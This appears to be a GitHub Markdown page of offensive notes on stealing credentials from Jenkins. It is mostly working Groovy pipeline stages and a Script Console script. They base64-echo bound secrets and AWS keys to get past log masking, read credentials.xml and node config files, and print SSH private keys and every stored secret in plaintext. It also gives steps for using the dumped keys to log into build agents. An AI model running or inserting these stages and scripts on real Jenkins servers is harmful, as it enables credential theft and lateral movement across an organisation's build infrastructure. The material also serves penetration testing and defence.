 # Credentials Dumping

## Credentials in Text fields in Credentials List
- We can find the list of credentials name and id at http://host:ip/credentials/
- While this sounds very hypothetical, it is very much real to find credentials in text and name section.
- Possible reason for rewriting credentials in credentials description makes it easier to remember purpose, or for making debugging easy.

## Dumping credentials from logs

- Build logs are generated from the build output.
- In certain cases depending on how the pipeline is created, credentials can get logged in the build output
<img src="buildlog-password1.png">

## Credentials Dumping from pipeline

- We can store various kinds of credentials in Jenkins ( username:password, AWS credential, secret file, secret text, Github credentials, certificate )
- The withCredentials() function can pass the credential id for the required secret and that credential will be available as an environment variable.
- If there are some global credentials or credentials for the current project scope we can dump them. 
- It is important to know the name of the parameter, and if you have guessed correctly we can get the parameter id from here ( http://host:ip/credentials/ )
- Credentials Bindings ( https://www.jenkins.io/doc/pipeline/steps/credentials-binding/ )

- Dumping Username:Password
``` Groovy
stage('Credential Dumping') {
            steps {
                 withCredentials(
                    [usernameColonPassword(credentialsId: '3b258e73-5e16-4338-883e-7a24927aefe1', variable: 'USERPASS')]
                ) {
                    sh '''
                        echo "$USERPASS" | base64
                    '''
                }
            }
        }
```
- Dumping AWS Keys ( References : https://stackoverflow.com/questions/53859575/jenkinsfile-access-aws-credentials )
```
        stage('Credential Dumping') {
            steps {
                 withCredentials([[$class: 'AmazonWebServicesCredentialsBinding',credentialsId: "8ada641e-429c-4547-9921-a1581dbf86ef",accessKeyVariable: 'AWS_ACCESS_KEY_ID',secretKeyVariable: 'AWS_SECRET_ACCESS_KEY'
]]) {
                    sh '''
                        echo "$AWS_ACCESS_KEY_ID" | base64
                    '''
                }
            }
        }
```        

## Credential ID Dumping

- Imagine we don't have access to  ```http://host:ip/credentials/``` to list the credentials id
- We can either look through the code repository hunting for these id or we need a piece of luck we can use Built-In executor
- When ```# of exectors``` in ```Configure System``` is set to non-zero, we can run builds on the controller, which means we have access to the controllers file system.
- Reference - https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
```

<img src="credential-id-dumping.png">

## Credentials & Configuration Dumping Build Agents Information

- This will be somewhat a borderline between credential dumping and lateral movement/backdooring.
- If the Jenkins Controller use SSH to the build agents we can try to dump those ssh keys and get access to the build agents.
- If some fields are not entered during configuration, then they might throw error while calling  withCredentials(sshUserPrivateKey) ( as I have not used paraphrase , trying to dump paraphrase would throw error )
- So we need luck here again as configuration files are stored in controller. 
   - Step 1 : Dump the ssh identifiers
   - Step 2 : Dump the ssh keys ( Reference : https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials )
   - Step 3 : Dump the nodes configuration ( note : the path to the Worker-Node is found through traversing the nodes under $JENKINS_HOME/nodes)
   - Step 4 : Use the user-name, and hostname and ssh-key to login to the build agent
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
        
    stage('Host Information Dumping') {
            steps {      
                  sh '''
                    cat /var/lib/jenkins/nodes/Worker-Node/config.xml
                  '''   
            }
    }
        
    stage('Dumping sshUserPrivateKey') {
        steps {
            script {
                withCredentials([sshUserPrivateKey(
                    credentialsId: 'dd0f4c9e-01dc-47c3-a0cd-3fff32e2a6cd',
                    keyFileVariable: 'keyFile',
                    passphraseVariable: 'passphrase',
                    usernameVariable: 'username')
                ]){
                    print 'keyFile=' + keyFile
                    print 'username=' + username
                    print 'keyFile.collect { it }=' + keyFile.collect { it }
            
                    print 'username.collect { it }=' + username.collect { it }
                    print 'keyFileContent=' + readFile(keyFile)
                }
            }
        }
    }
```

<img src="credential-host-configuration.png">
<img src="credential-ssh-configuration.png">


## Credentials Dumping from Script Console

- Credentials can be dumped from the Script Console
``` Groovy
//copied from https://gist.github.com/timja/04afb12c8ad909e400317a2ad9c88445
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.common.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.*
import org.jenkinsci.plugins.plaincredentials.impl.*

  
// def item = Jenkins.instance.getItem("your-folder")

def creds = CredentialsProvider.lookupCredentials(
        com.cloudbees.plugins.credentials.Credentials.class,
        Jenkins.instance, // replace with item to get folder or item scoped credentials 
        null,
        null
);

for (credential in creds) {
  if (credential instanceof UsernamePasswordCredentialsImpl) {
    println credential.getId() + " " + credential.getUsername() + " " + credential.getPassword().getPlainText()
  } else if (credential instanceof StringCredentialsImpl) {
    println credential.getId() + " " + credential.getSecret().getPlainText() 
  } else if(credential instanceof BasicSSHUserPrivateKey) {
    println credential.getId() + " " + credential.getUsername() + "\n" + credential.getPrivateKey() + "\n Passphrase: " + credential.getPassphrase()
  } else if (credential.getClass().toString() == "class com.microsoft.azure.util.AzureCredentials") {
    println "AzureCred:" + credential.getSubscriptionId() + " " + credential.getClientId() + " " + credential.getPlainClientSecret() + " " + credential.getTenant()
  } else if (credential.getClass().toString() == "class org.jenkinsci.plugins.github_branch_source.GitHubAppCredentials") {
    println credential.getId() + " " + credential.getUsername() + "\n" + credential.getPrivateKey().getPlainText()
  } else if (credential.getClass().toString() == "class com.cloudbees.jenkins.plugins.awscredentials.AWSCredentialsImpl") {
    println credential.getId() + " " + credential.getAccessKey() + " " + credential.getSecretKey()
  } else if (credential.getClass().toString() == "class com.microsoft.jenkins.keyvault.SecretStringCredentials"
            || credential.getClass().toString() == "class org.jenkinsci.plugins.azurekeyvaultplugin.credentials.string.AzureSecretStringCredentials") {
  } else {
    println credential.getClass()
  } 
}
```
## References
- https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials 
- https://www.jenkins.io/blog/2019/02/21/credentials-masking/

